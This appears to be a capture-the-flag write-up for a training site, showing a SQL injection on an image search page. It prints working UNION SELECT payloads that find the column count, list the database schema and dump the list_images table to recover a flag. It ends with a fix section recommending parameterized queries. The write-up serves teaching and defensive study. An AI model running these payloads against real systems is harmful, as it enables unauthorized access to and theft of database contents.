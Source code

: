 ## Exploit
On the image search page `${URL}?page=imgsearch` we don't get error messages for the SQL queries this time, it's a blind injection, let's try using the same steps than with the member page SQL injection

First let's get the number of rows. The UNION statement allows us to execute additional queries and to append them to the original one.
```SQL
1=1 UNION SELECT NULL           # nothing
1=1 UNION SELECT NULL,NULL      # works
1=1 UNION SELECT NULL,NULL,NULL # nothing
```
We can conclude that we have access to two columns of output, let's try getting the table and column names from the [mySQL schema](https://dev.mysql.com/doc/mysql-infoschema-excerpt/5.6/en/information-schema-columns-table.html)

```SQL
1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
We can see the columns of the `list_images` table, namely `id` `url` `title` and `comment`

MySQL uses the `CONCAT_WS` function to concacenate multiple strings with a separator
```SQL
1=1 UNION SELECT NULL, CONCAT(id,url,title,comment) FROM list_images
```

One of the results is the interesting `Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`, decrypted it reads `albatroz`
```shell
$ echo -n albatroz | sha256sum
[REDACTED] -
```

## Fix
To defend against SQL injections developers should use prepared statements with parameterized queries, this will prevent any chance of injections occuring.
A less effective method that should be avoided is to escape the user supplied input, this method is heavily dependent on the database implementation and error-prone, it can make for a secondary defense however.
